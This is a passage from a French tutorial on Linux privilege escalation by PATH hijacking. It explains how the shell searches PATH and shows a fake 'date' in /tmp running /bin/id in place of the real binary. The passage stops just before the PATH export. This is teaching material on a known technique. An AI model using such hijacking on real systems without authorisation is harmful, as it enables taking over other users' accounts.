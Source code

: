 Je ne l'ai pas précisé avant mais il faut évidemment que le fichier appartienne à l'utilisateur sur lequel on veut se connecter :

```bash
chown krowz:krowz ./check_date
```

#### Comment exploiter cette faille ? 

Comme je le disais avant, la vulnérabilité vient du fait qu'on va appeler la commande **sans spécifier le chemin complet**.

Quand on lance une commande, le shell va d'abord regarder la **variable d'environnement** nommée ``PATH``.<br>
On peut l'afficher simplement :

```bash
echo $PATH
```
```
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Il va ensuite chercher de gauche à droite dans chaque répertoire s'il trouve le binaire correspondant à la commande.

C'est à dire qu'il va chercher :

```
/usr/local/bin/date
/usr/bin/date
/bin/date
/usr/local/games/date
/usr/games/date
```

Dès qu'il va tomber sur le binaire il ne va pas chercher plus loin et l'exécute.

Dans notre cas il va trouver le binaire dans ``/usr/bin/date``.

De plus, on peut **modifier directement** la variable ``PATH`` et donc ajouter de nouveaux répertoires dans lesquels on va chercher le binaire.

Maintenant si on crée un binaire qu'on appelle ``date`` dans ``/tmp`` mais qui exécute une **autre commande** ?<br>
Si ensuite on ajoute ``/tmp`` dans la variable ``PATH`` ?

Et bien ce sera notre binaire ``date`` qui sera exécuté. Même si celui-ci n'affiche pas une date.

Voici les commandes correspondantes :

```bash
echo /bin/id > /tmp/date
chmod 777 /tmp/date
```

On va créer un nouveau fichier ``date`` qui contient la commande ``/bin/id`` et on lui donne tous les droits.

On **exporte** ensuite notre nouveau chemin dans la variable d'environnement ``PATH`` :

